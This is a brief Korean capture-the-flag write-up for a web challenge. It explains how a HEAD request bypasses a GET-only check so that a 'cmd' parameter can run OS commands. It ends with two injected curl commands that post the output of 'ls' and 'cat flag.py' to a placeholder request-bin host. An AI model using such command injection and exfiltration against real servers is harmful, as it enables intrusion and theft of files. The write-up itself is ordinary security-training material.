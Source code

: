 ## 주요 개념

- Http Method

## 풀이

주어진 소스코드를 보면 GET 요청이 아닐 경우에만 cmd를 실행한다.  
/로 OPTIONS 요청을 보내보면 Allow: GET, OPTIONS, HEAD인 것을 알 수 있다.

HEAD method를 통해 os 명령어를 사용할 수 있음을 알았다.
cmd에 curl 요청을 보내도록 명령어를 담아보낸다.
먼저 해당 경로에 있는 파일 목록을 알아내기 위해 ls 명령어의 결과물을 body에 담아 보내도록 했다.
해당 경로에 flag.py가 있는 것을 확인한 후, 해당 파일의 내용물을 body에 담아 요청을 보내도록 하여 flag를 얻어냈다.

`'curl -X POST -d "$(ls)" {REQUEST_BIN}'`  
`'curl -X POST -d "$(cat flag.py)" {REQUEST_BIN}'`
